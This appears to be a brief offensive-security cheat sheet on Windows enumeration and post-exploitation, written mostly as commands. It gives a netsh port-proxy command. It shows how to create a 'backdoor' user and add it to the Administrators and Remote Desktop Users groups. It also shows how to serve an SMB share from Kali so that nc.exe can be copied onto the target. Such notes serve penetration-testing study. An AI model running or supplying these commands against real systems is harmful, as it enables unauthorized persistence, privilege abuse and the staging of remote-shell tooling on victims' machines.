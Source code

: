 # Windows

### Windows Version Information

[https://en.wikipedia.org/wiki/Comparison\_of\_Microsoft\_Windows\_versions](https://en.wikipedia.org/wiki/Comparison_of_Microsoft_Windows_versions)

## Windows Enumeration

#### Port forwarding

```bash
netsh interface portproxy add v4tov4 listenaddress=10.11.1.73 listenport=8443 connectaddress=127.0.0.1 connectport=8443
```

## Windows Post Exploitation

### Create Backdoor User <a id="backdoor_user"></a>

```text
net user backdoor backdoor123 /add
net localgroup administrators backdoor /add
net localgroup "Remote Desktop Users" backdoor /add
```

### Spin up SMB Share on Kali

`impacket-smbserver SMBSHARE ./`

#### Connect to share from windows

```bash
copy \\10.11.0.53\SMBSHARE\nc.exe
```







